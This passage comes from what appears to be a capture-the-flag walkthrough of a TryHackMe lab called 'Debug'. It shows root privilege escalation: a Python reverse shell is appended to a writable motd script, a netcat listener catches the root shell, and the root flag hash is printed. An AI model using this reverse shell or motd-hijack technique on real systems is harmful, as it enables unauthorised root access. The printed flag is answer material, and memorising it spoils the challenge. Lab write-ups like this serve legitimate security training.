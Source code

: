 The motd service that you can see in all of them, stands for "message of the day". It is used to display messages when a user connects, and will be run by `root`. As you can see we have write access, so let's add a reverse shell.

This is the python reverse shell I'm using:
~~~
/usr/bin/python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR IP>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
~~~

We add this to `00-header`:

~~~
james@osboxes:~$ cat >> /etc/update-motd.d/00-header << EOF
> /usr/bin/python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.1.128",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
> EOF
~~~

Now disconnect and start a listener. Then log back in and you'll get a shell as `root`:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Debug/files]
└─$ rlwrap nc -lvnp 8888
listening on [any] 8888 ...
connect to [10.9.1.128] from (UNKNOWN) [10.10.86.100] 34766
bash: cannot set terminal process group (2120): Inappropriate ioctl for device
bash: no job control in this shell
root@osboxes:/# id
uid=0(root) gid=0(root) groups=0(root)
~~~

### Root flag

Now head to `/root` and read the root flag:
~~~
root@osboxes:/# cd /root
root@osboxes:/root# ls
root.txt
root@osboxes:/root# cat root.txt
3c8c3d0fe758c320d158e32f68fabf4b
~~~

root.txt: `3c8c3d0fe758c320d158e32f68fabf4b`

# D0N3! ; )

Thanks to the creator(s)!

Hope you had fun and learned something.

Have a g00d one! : )